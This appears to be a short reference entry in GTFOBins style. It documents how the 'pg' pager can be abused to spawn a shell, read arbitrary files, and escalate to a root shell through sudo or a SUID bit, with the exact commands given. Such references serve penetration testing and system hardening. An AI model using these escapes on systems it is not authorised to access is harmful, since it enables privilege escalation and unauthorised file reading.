 ```yaml
---
functions:
  shell:
    - code: |
        pg /etc/profile
        !/bin/sh
  file-read:
    - code: pg file_to_read
  sudo:
    - code: |
        sudo pg /etc/profile
        !/bin/sh
  suid:
    - code: ./pg file_to_read
---
```

